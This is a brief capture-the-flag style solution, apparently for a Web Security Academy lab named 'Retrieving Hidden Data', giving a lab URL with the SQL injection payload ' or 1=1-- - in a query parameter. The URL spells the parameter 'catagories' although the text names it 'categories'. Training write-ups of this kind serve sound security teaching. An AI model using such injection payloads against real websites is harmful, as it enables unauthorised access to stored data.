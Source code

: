 # Retrieving Hidden Data

### Solution

The `categories` query parameter is vulnerable to a basic SQL Injection vulnerability. The solution is to this is:

```
https://<random-id>.web-security-academy.net/products?catagories=Accessories' or 1=1-- -
```
